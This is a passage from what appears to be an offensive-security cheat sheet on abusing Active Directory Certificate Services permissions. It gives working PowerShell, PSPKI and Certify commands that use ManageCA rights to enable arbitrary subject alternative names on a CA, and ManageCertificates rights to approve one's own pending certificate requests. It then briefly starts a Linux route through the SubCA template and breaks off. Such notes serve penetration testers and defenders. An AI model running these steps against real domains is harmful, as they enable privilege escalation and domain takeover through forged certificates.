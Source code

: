 * _If an attacker gains control over a principal that has the **ManageCA** right over the CA, he can remotely flip the `EDITF_ATTRIBUTESUBJECTALTNAME2` bit to allow SAN specification in any template_

```powershell
# If RSAT is not present on the machine
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.contoso.local | Get-CertificationAuthorityAcl | select -ExpandProperty access

$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.contoso.com"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
certutil.exe -config "CA.consoto.local\CA" -getreg "policy\EditFlags"
reg query \\CA.contoso.com\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\contoso-CA-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy /v EditFlags
```

* _If an attacker gains control over a principal that has the **ManageCertificates** right over the CA, he can remotely approve pending certificate requests, subvertnig the "CA certificate manager approval" protection_

```powershell
# Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.contoso.local\CA01 /template:ApprovalNeeded
...
[*] Request ID : 1337

# Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.contoso.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest

# Download the issued certificate with Certify
Certify.exe download /ca:CA.contoso.local\CA01 /id:1337
```

#### Linux

When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2 attribute`,the built-in template **SubCA** can be usefull.

It is vulnerable to the **ESC1** attack, but only **Domain Admins** and **Enterprise Admins** can enroll in it. If a standard user try to enroll in it with [Certipy](https://github.com/ly4k/Certipy), he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.
